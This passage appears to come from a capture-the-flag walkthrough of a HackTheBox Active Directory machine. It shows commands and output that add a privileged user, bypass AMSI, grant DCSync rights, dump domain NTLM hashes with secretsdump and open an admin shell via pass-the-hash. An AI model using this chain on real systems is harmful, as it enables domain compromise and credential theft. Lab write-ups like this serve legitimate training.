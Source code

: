    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john testtest1 /add /domain
    The command completed successfully.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
    The command completed successfully.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" john /add
    The command completed successfully.

The commands above create a new user named john and add him to the required groups. Next,
download the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) script and import it into the current session.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ../../Tools/PowerView.ps1 ../
    
    Info: Uploading /home/kali/CTF/HTB/../../Tools/PowerView.ps1 to C:\Users\svc-alfresco\Documents\..\
    
    Data: 1027036 bytes of 1027036 bytes copied
    
    Info: Upload successful!

    *Evil-WinRM* PS C:\Users\svc-alfresco> Bypass-4MSI
    
    Info: Patching 4MSI, please be patient...
    
    [+] Success!

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can
use the Add-ObjectACL with john's credentials, and give him DCSync rights.

    *Evil-WinRM* PS C:\Users\svc-alfresco> . ./PowerView.ps1

    .*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = convertto-securestring 'testtest1' -asplain -force
    *Evil-WinRM* PS C:\Users\svc-alfresco> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
    *Evil-WinRM* PS C:\Users\svc-alfresco> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

The secretsdump script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.

    secretsdump.py htb/john@10.10.10.161
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    Password:
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:<redacted>:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

The obtained Domain Admin hash can be used to login via psexec.

    psexec.py administrator@10.10.10.161 -hashes <redacted>
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file CnpvMmtm.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service rISg on 10.10.10.161.....
    [*] Starting service rISg.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    